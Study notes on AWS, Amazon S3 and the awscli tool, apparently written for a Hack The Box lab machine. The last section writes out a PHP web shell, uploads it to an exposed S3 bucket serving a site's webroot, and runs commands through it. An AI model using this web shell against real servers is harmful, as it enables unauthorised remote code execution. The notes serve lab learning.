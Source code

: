 # Amazon

## Content
- [AWS](#aws)
- [Amazon S3](#amazon-s3)
- [awscli](#awscli)
  - [Install](#install)
  - [Configure](#configure)
  - [List S3 Objects](#list-s3-objects)
  - [Copy Files to an S3 Bucket](#copy-files-to-an-s3-bucket)

----
## [AWS](https://aws.amazon.com/)
> Amazon Web Services offers a broad set of global cloud-based products including compute, storage, databases, analytics, networking, mobile, developer tools, management tools, IoT, security, and enterprise applications: on-demand, available in seconds, with pay-as-you-go pricing
- It's basically Amazon's SaaS cloud computing platform ([doc](https://aws.amazon.com/what-is-aws/?nc1=f_cc)).
- One of those cloud services AWS offers is their **_storage_** option: Amazon S3.

## [Amazon S3](https://aws.amazon.com/s3/)
> Amazon Simple Storage Service (Amazon S3)
- Amazon Simple Storage Service (Amazon S3) is an object storage service.
  - Customers can use Amazon S3 to store and protect any amount of data for a range of use cases.
  - Amazon S3 provides management features so that you can optimize, organize, and configure access to your data to meet your specific requirements.
- Amazon S3 stores data as _objects_ within _buckets_.
  - An [objects](https://docs.aws.amazon.com/AmazonS3/latest/userguide/UsingObjects.html) is a file and any metadata that describes the file.
    - Objects are the fundamental entities stored in Amazon S3.
    - Each object can be up to 5 TB in size.
  - A _[bucket](https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html)_ is a container for objects.
- If you access an S3 subdomain (e.g., `http://s3.thetoppers.htb`) and you see the json key:value pair: `{"status": "running"}`, you know you're dealing with an active S3 storage service.

## [awscli](https://aws.amazon.com/cli/)
> The AWS Command Line Interface (AWS CLI) is a unified tool to manage your AWS services. With just one tool to download and configure, you can control multiple AWS services from the command line and automate them through scripts.
- You can interact with AWS, including an S3 bucket, with `awscli` (AWS Command Line Interface)

### Install
```
apt install awscli
```

### Configure
```
aws configure
```
- When prompted, just use an arbitrary values (e.g., "temp") for the responses to the required fields. 

### List S3 Objects
- Use the `ls` command to list the objects and common prefixes under (in) the specified bucket:
```
aws --endpoint=http://s3.[domain name] s3 ls s3://[domain name]
# Results, example (for s3.thetoppers.htb): 
#                          PRE  images/
#  2024-02-24 15:02:08      0  .htaccess
#  2024-02-24 15:02:08  11952  index.php
```
- This particular example is that of the webroot of a website. An Apache server is using this S3 bucket as storage for the website's files. 

### Copy Files to an S3 Bucket
- In the example above, we could try uploading a PHP shell file to the S3 bucket and since it's uploaded to the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we will achieve remote code execution.
- Continuing with that example...
```
# create a PHP file to upload
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# upload that file with awscli
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```
- Test that uploaded file by accessing it through the website: `http://thetoppers.htb/shell.php?cmd=id`
- If the response from the server contains the output of the OS command `id`, then we have code execution on the box. Now you'd just need to work out a reverese shell, etc. 








